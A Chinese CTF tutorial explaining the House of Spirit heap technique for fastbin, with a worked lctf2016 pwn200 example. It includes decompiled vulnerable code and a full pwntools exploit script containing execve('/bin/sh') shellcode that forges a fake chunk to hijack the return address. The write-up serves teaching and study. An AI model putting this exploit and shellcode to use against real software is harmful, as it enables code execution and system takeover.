



# House of Spirit

## 1.基本原理

主要针对fastbin 和 tcache 的攻击

利用方式是对 `double_free` 和 `UAF` 漏洞的进一步利用，**伪造fakechunk**，实现对任意内存写

通过伪造一个堆块 fake_chunk(该堆块并不是通过 malloc 申请回来的)，利用 free 的机制将该 fake_chunk 放入链表之中，再次通过 malloc 将该 fake_chunk 申请，从而实现对不可控的区域可控

与fastbin double free的区别是double free是将本来malloc的内存进行两次释放，通过再次申请修改fd指针



## 2.针对fastbin

伪造条件：

* **标志位：**
  * N：一般为主线程的堆，多以N设置为0
  * M：设置为0，表示是不是由mmap分配的，否则会单独处理
  * P：设置为1，表示前一个chunk没有free，不会触发unlink机制
* **内存对齐：**
  * 32位8字节对齐，64位16字节对齐
* **size大小：**
  * 由于需要放入fastbin中，所以size要与要放入的fastbin链表的size大小相同
* **fakechunk的nextchunk大小：**
  * nextchunk 的大小不能小于 2 * SIZE_SZ ，同时也不能大于av->system_mem

例题：

**lctf2016_pwn200**

整个函数的栈空间：



```c
int sub_400A8E()
{
  __int64 i; // [rsp+10h] [rbp-40h]
  char v2[48]; // [rsp+20h] [rbp-30h] BYREF

  puts("who are u?");
  for ( i = 0LL; i <= 47; ++i )
  {
    read(0, &v2[i], 1uLL);
    if ( v2[i] == 10 )
    {
      v2[i] = 0;
      break;
    }
  }
  printf("%s, welcome to ISCC~ \n", v2);
  puts("give me your id ~~?");
  readfromcin();
  return sub_400A29();
}
```

* read中存在off by one漏洞，通过读入48字节数据正好可以泄露出rbp上的值，由于栈可执行，这里面我们也可以放入shellcode，但是需要注意不能有`\x00`,因为打印出来时会出现截断的情况

* 该函数的readfromcin()其实会把返回值id存到栈空间上


```c
int sub_400A29()
{
  char mony[56]; // [rsp+0h] [rbp-40h] BYREF
  char *dest; // [rsp+38h] [rbp-8h]

  dest = (char *)malloc(0x40uLL);
  puts("give me money~");
  read(0, mony, 64uLL);
  strcpy(dest, mony);
  ptr = dest;
  return sub_4009C4();
}
```

* 这里的read存在一个栈溢出，可以溢出8字节，正好修改dest指针的值
* 修改dest后，成功修改ptr指针，而ptr是存储在bss段
* 而后面的free是ptr所指向的堆块，并且free后将ptr指针置0，防止UAF

故构造如下堆块，实现house of spirit：

在一开始的name输入中放入shellcode，利用id写入一个size大小，后面，我们只能控制buf区域，并且dest原本是指向堆的，这里修改为fakechunk的fd

释放fakechunk时fakechunk入fastbin，malloc一次申请出来，这样我们就可以实现对于不可控的区域可控，修改返回地址为shellcode的地址即可跳转至shellcode



```python
from pwn import *

elf_path = './pwn200'
elf = ELF(elf_path)
context(arch=elf.arch, os=elf.os, log_level="debug")
ip = '8.147.135.93'
port = 37051

local = 1
if local:
    p = process([elf_path])
else:
    p = remote(ip, port)

# session = ssh(host='node5.buuoj.cn', port=26482, user='CTFMan', password='guest')
# p = session.process(['./vuln'])
#-----------------------------------------------------------------------------------------
it      = lambda                    :p.interactive()
sd      = lambda data               :p.send((data))
sa     	= lambda delim,data         :p.sendafter((delim), (data))
sl      = lambda data               :p.sendline((data))
sla     = lambda delim,data         :p.sendlineafter((delim), (data))
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=False :p.recvuntil(delims, drop)
rl      = lambda                    :p.recvline()
l       = lambda str1               :log.success(str1)
li      = lambda str1,data1         :log.success(str1+' ========> '+hex(data1))
uu32    = lambda data               :u32(data.ljust(4, b"\x00"))
uu64    = lambda data               :u64(data.ljust(8, b"\x00"))
n64     = lambda x                  :(x + 0x10000000000000000) & 0xFFFFFFFFFFFFFFFF
u32Leakbase = lambda offset         :u32(ru(b"\xf7")[-4:]) - offset
u64Leakbase = lambda offset         :u64(ru(b"\x7f")[-6:].ljust(8, b"\x00")) - offset
#-----------------------------------------------------------------------------------------
payload = asm('''
            xor 	rsi, rsi
            push	rsi	
            mov 	rdi, 0x68732f2f6e69622f
            push	rdi
            push	rsp		
            pop	    rdi			
            mov 	al,	59	
            cdq				
            syscall
        ''')
payload = payload.ljust(48, b"a")
sa(b"who are u?\n", payload)
rbp_addr = u64Leakbase(0) - 0x60 - 0x60
li("rbp_addr", rbp_addr)

sla(b"give me your id ~~?\n", str(0x41).encode())
# gdb.attach(p, "b *0x400A3B")
# pause()
payload = b""
payload += p64(0)
payload += p64(0x61)
payload = payload.ljust(0x38, b"b")
payload += p64(rbp_addr + 0x10)
sla(b"give me money~\n", payload)

sla(b"your choice :", str(2).encode())
sla(b"your choice :", str(1).encode())
sla(b"how long?", str(0x58).encode())
sla(b"give me more money : ", b"c"*0x38+p64(rbp_addr+0x70))
sla(b"your choice : ", str(3).encode())
it()
```


## 3.针对tcache

与fastbin利用类似
